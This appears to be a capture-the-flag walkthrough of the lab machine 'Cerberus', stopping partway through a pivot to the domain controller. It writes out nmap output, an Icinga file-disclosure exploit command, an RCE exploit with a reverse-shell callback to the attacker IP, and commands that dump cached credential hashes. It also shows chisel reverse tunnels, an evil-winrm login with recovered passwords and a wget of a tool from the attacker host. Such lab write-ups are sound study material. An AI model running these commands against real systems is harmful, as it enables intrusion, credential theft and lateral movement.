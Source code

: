 # Enumeration
Using autorecon to enumerate:
```
#Nmap 7.94SVN scan initiated Fri Feb 23 19:45:26 2024 as: nmap -vv --reason -Pn -T4 -sV -sC --version-all -A --osscan-guess -p- -oN /home/kali/Downloads/cerberus/results/10.10.11.205/scans/_full_tcp_nmap.txt -oX /home/kali/Downloads/cerberus/results/10.10.11.205/scans/xml/_full_tcp_nmap.xml 10.10.11.205
Nmap scan report for 10.10.11.205
Host is up, received user-set (0.042s latency).
Scanned at 2024-02-23 19:45:26 IST for 110s
Not shown: 65534 filtered tcp ports (no-response)
PORT     STATE SERVICE REASON         VERSION
8080/tcp open  http    syn-ack ttl 62 Apache httpd 2.4.52 ((Ubuntu))
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Did not follow redirect to http://icinga.cerberus.local:8080/icingaweb2
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.52 (Ubuntu)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Linux 5.X (91%)
OS CPE: cpe:/o:linux:linux_kernel:5.0
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Linux 5.0 (91%)
Uptime guess: 38.204 days (since Tue Jan 16 14:53:06 2024)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=261 (Good luck!)
IP ID Sequence Generation: All zeros

TRACEROUTE (using port 8080/tcp)
HOP RTT      ADDRESS
1   42.97 ms 10.10.14.1
2   43.08 ms 10.10.11.205

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Feb 23 19:47:16 2024 -- 1 IP address (1 host up) scanned in 109.70 seconds

```
Adding it to dns we get an icinga website:
![](attachment/c5c2c1d8d5f3ebddedfb07390c2cccaf.png)
Using arbitrary file disclosure exploit for icinga from https://www.exploit-db.com/exploits/51329 got the default authentication file:
```
python3 51329.py http://icinga.cerberus.local:8080/icingaweb2 /etc/icingaweb2/authentication.ini 
```
![](attachment/5dfb970d5386819e3486b3d1920463cf.png)
Then checking roles.ini:
![](attachment/c18a78d2e6b5dd4d70e3bf268ed44e13.png)
Found the username and password in resources.ini:
![](attachment/ba174aa305ed73dae70d9c7141d446c7.png)username = matthew
password = IcingaWebPassword2023
Now using authenticated remote code execution from https://github.com/JacobEbben/CVE-2022-24715
```
python3 exploit.py -u http://http://icinga.cerberus.local:8080 -U matthew -P IcingaWebPassword2023 -i 10.10.14.22 -p 443
```
we get a shell:
![](attachment/f8971826dc16180180a4ced201813da0.png)
Using linpeas we find the process sssd which tells that it is indeed an AD:
![](attachment/56c00b1fbdc66eead7b68976ff4957c5.png)
can also check manually with `ps -ef --forest`
We find something interesting:
![](attachment/ad5473c90cd78324130838267435503e.png)
Finding the version of firejail:
![](attachment/14c3b8b96c44d2f0a318bc60ad0b5f92.png)
Now we get an exploit for it [here](https://github.com/0xsyr0/Awesome-Cybersecurity-Handbooks/blob/main/handbooks/cve.md#cve-2022-31214-firejail-lpe)
![](attachment/47ed14741eb7887d147a29270bf7c61b.png)
Running su - we get a root shell:
![](attachment/3cdb4e51b4d413dc3fa66b97df86d6d9.png)

IP of domain controller:
`172.16.22.1`
![](attachment/9a048ff3fb219dfe8c9ed03b98d28a67.png)

To check for hashes: 
```
strings  /var/lib/sss/secrets/secrets.ldb | grep '\$'
```
![](attachment/d10f90cd4d49b4568e86c1f46aaa7e02.png)
Checking config files there are cached creds:
![](attachment/29dd1ee7cc95da2a4af6d19b94573940.png)
Checking for cache in `/var/lib/sss/db`:
```
strings cache_cerberus.local.ldb | grep '\$'
```

matthew: `147258369`

To check if winrm is running on the dc(172.16.22.1):
```
echo 1 > /dev/tcp/172.16.22.1/5985; echo $?
```
We get a 0 which means the port is open
**NOTE: Dont do this portforwarding in oscp research better techniques**
So running chisel on attacker machine with:
`chisel server --reverse --socks5 -p 8001`
Then running chisel in target machine:
`./chisel client 10.10.14.22:8001 R:5985:172.16.22.1:5985`
Add to proxychains config (/etc/proxychains4.conf):
`socks5  127.0.0.1 1080`

Using evil-winrm to login to matthew:
`evil-winrm -i 127.0.0.1 -u matthew -p 147258369`
We get a shell:
![](attachment/84fdcd4279b5cd7d7eac9b9938a968c1.png)
Now getting chisel onto the cerberus machine:
`wget http://10.10.14.22/chisel.exe -o chisel.exe`
Now port forwarding:
- Attacker
	`chisel server --reverse --socks5 -p 8002`
- Target
	`.\chisel.exe client 10.10.14.22:8001 R:socks`
	`.\chisel.exe client 10.10.14.22:8001 R:9251:127.0.0.1:9251`
Add domain to /etc/hosts
![](attachment/6e45d99e9dbe1666d3f9a88255d42813.png)
Then make a firefox proxy in foxyproxy:
![](attachment/806e529776130c29753343f17915b333.png)

